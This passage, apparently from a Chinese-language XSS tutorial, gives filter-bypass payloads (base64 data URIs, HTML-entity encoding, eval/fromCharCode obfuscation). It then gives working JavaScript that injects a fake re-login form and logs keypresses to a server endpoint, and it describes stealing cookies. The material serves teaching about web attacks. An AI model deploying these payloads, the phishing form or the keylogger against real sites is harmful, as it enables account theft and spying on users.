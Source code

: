 base64编码绕过

```html
<script src="data:text/html;base64,YWxlcnQoJzEnKQ=="></script>
```

html实体编码了base64编码实现绕过

```html
<script src="&#100;&#97;&#116;&#97;&#58;&#116;&#101;&#120;&#116;&#47;&#104;&#116;&#109;&#108;&#59;&#98;&#97;&#115;&#101;&#54;&#52;&#44;&#89;&#87;&#120;&#108;&#99;&#110;&#81;&#111;&#74;&#122;&#69;&#110;&#75;&#81;&#61;&#61;"></script>
```

#### 3.5 eval()

如果目标系统没有将eval和replace加入黑名单，那么可以拿它们来做一些文章，eval('alert(1)')其实等同于alert(1)，但是如果直接这样写，就有画蛇添足之嫌。我们可以这样用：

```javascript
eval('~a~le~rt~~(~~1~~)~'.replace(/~/g, ''))
```
加入一些有的没的符号进行混淆，然后再将这些符号删除，从而得到我们想要的payload。
String的fromCharCode()也是个不错的选择，它可以将Unicode编码转为一个或多个字符。获取多个字符组成字符串，就可以组成我们想要的payload。

```javascript
eval(String.fromCharCode(97,108,101,114,116,40,49,41))
```

## D) Not only 'alert(1)'
XSS就算攻击成功了，也就是一个弹窗而已吗？显然不是，来看看有哪些利用姿势

### 1) 获取Cookie，无需账号即可登录
在利用成功后，只需将Cookie传回攻击者的服务器，那么攻击者就可以利用其直接登录目标账户（如通过firefox的firebug插件），危险程度不言而喻。但是现在越来越多的开发者了解到这里的风险，在Cookie中设置了**HttpOnly**，导致客户端脚本无法获取Cookie。

### 2) 插入表单获取账号

来看下面这段代码

```javascript
let dummyFormHtml = '系统检测到你的账号存在风险，请重新输入账号密码以继续<br><input type="text" /><br><input type="password" /><br><input type="submit" value="登录" />'

document.body.innerHTML = dummyFormHtml
document.addEventListener('keypress', function (event) {
  let xhr = new XMLHttpRequest()
  xhr.open('POST', '/interface')
  xhr.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded')
  xhr.send('data=' + event.key)
})
```

这段代码在DOM里插入了一个表单，并带有迷惑性引导，用户认为自己处于可信网站上，所以会轻易输入自己的账户信息，这样一来，即使无法获取cookie，也能实现登录。

### 3) 记录键盘按键事件
```javascript
document.addEventListener('keypress', function (event) {
  let xhr = new XMLHttpRequest()
  xhr.open('POST', '/interface')
  xhr.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded')
  xhr.send('data=' + event.key)
})
```
